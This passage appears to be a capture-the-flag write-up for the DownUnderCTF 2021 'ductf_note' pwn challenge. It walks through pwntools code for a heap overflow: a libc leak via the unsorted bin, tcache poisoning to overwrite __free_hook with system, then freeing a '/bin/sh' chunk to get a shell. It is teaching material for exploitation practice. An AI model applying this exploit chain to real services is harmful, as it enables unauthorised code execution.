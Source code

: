 ```py
# modify chunk size with 0x501, because it will not fit in tcache bins
# so once free'd, the chunk will be in unsorted bin
edit_note(b"A"*127 + b"B"*117 + p64(0x501))
delete_note()

create_note(0x200)
edit_note(b"A"*127 + b"B"*117 + p64(0x291) + p32(0x1000))
libc_base = u64(show_note()[0x28c:0x28c+8]) - 0x1ebbe0
success(f"libc base @ {hex(libc_base)}")

# malloc will use in priority unsorted bin instead of creating new chunks from top chunk
```

The chunk in unsorted bin will be used to create other smaller chunks that will overlap already existing chunks, that's why we placed two chunks in tcache bin. It will allows us to overwrite pointers from a free'd chunk and make malloc returns us an arbitrary pointer.

# Overwriting `__free_hook` with `system`

Now that we have overlapping chunks, it remains for us to allocate the right amount of data and overwrite the pointers of the free'd chunks placed in tcache bin in order to make malloc returns us an arbitrary pointer and get a write-what-where primitive.

```py
info("overwriting __free_hook with system...")
target = libc_base + libc.symbols["__free_hook"] - 8

attach_gdb()
create_note(0x2c0)
edit_note(b"A"*127 + b"B"*117 + p64(0x2d1) + p64(target) + p64(target))

create_note(0xf0)
create_note(0xf0) # addr of target
attach_gdb()
edit_note(b"JUNK" + p64(libc_base + libc.symbols["system"]))
```

With the write-what-where primitive, we overwrote `__free_hook` with `system`.

# Getting a shell

We now have to free a chunk which contains `/bin/sh` at the beginning (I used the out-of-bounds write for that).

```py
create_note(127)
edit_note(b"A"*127 + b"B"*117 + p64(0xdead) + b"/bin/sh")
delete_note()
```

The complete exploit is available here : [https://github.com/ret2school/ctf/blob/master/2021/down_under_ctf/pwn/ductf_note/exploit.py](https://github.com/ret2school/ctf/blob/master/2021/down_under_ctf/pwn/ductf_note/exploit.py)
